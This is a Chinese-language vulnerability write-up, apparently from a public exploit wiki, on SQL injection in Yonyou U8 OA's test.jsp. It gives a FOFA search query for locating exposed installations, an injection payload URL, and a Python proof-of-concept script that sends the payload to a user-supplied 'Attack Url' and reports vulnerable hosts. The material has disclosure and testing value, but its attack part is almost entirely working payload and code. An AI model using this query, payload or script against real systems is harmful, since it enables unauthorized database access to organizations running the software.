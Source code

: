 # 用友 U8 OA test.jsp SQL注入漏洞

## 漏洞描述

用友 U8 OA test.jsp文件存在 SQL注入漏洞，由于与致远OA使用相同的文件，于是存在了同样的漏洞

## 漏洞影响

```
用友 U8 OA
```

## FOFA

```
"用友U8-OA"
```

## 漏洞复现

可参考 文章

[致远OA A6 test.jsp SQL注入漏洞](http://wiki.peiqi.tech/PeiQi_Wiki/OA产品漏洞/致远OA/致远OA A6 test.jsp SQL注入漏洞.html)

登录页面如下

![yongyou-1-1](https://typora-1308934770.cos.ap-beijing.myqcloud.com/yongyou-1-1.png)

POC

```plain
/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20MD5(1))
```

![yongyou-1-2](https://typora-1308934770.cos.ap-beijing.myqcloud.com/yongyou-1-2.png)

利用方法与致远OA 的SQL注入类似

## 漏洞POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mTitle	 : 用友 U8 OA test.jsp SQL注入漏洞                           \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mFile         >>> ip.txt                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20md5(1))"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if "c4ca4238a0b923820dcc509a6f75849b" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 \n[o] 响应地址: {} \033[0m".format(target_url, vuln_url))
        else:
            print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![yongyou-1-3](https://typora-1308934770.cos.ap-beijing.myqcloud.com/yongyou-1-3.png)